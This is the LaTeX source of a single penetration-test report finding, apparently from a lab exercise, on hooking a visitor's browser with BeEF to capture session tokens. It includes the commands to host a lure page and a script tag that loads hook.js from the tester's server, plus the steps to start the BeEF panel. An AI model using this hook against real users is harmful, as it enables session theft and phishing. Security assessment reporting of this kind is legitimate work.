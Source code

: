 \documentclass[notitlepage]{article}
\begin{document}

  \subsection{Finding: \emph{Browser Hooking and Admin DB Credentials}}
  	\subsubsection*{Severity Rating}
	Low Severity: \\
    \cvss(L,H,L,R,U,L,N,N,2.2)
		
  	\subsubsection*{Vulnerability Description}
        Using social engineering, we know to expect a user to hit a page we are hosting. Using BeEF (Browser Exploitation Framework), we are able to capture
        the users browser and get sensitive information such as session tokens as well as use other possible social engineering attacks such as fake email login pages.

  	\subsubsection*{Confirmation method}
  	We must first create on our server with the URL \textbf{/coins/collection.html} and add a script to the page that hooks it to BeEF. This requires us to make a new directory,
    create a new page, add a script to the page, and then start or restart the apache server.
\begin{verbatim}
sudo mkdir /var/www/html/coins
sudo vim /var/www/html/coins/collection.html
In HTML:
    <script src='http://172.24.0.10:3000/hook.js'></script>
sudo service apache2 start
\end{verbatim}
    We can then navigate to the beef directory and start it up as follows:
\begin{verbatim}
./beef
xdg-open http://172.24.0.10:3000/ui/panel
\end{verbatim}
    Then, use the credentials found in the config.yaml in the beef directory to log in and wait. After some time, a new Windows user will appear and thus the attack is complete.
    \subsubsection*{Mitigation or Resolution Strategy}
    There are not a lot of possible concrete resolution strategies to resolve this kind of attack. One possible mitigation would be to make sure all users keep software updated as 
    newer versions of browsers and software are more resiliant to these kind of attacks. Antivirus software and more network firewalls might also help to possibly block the user
    from being able to access the page. These are not sure ways to stop this attack, but they might help reduce the chance of this happenining.
\end{document}
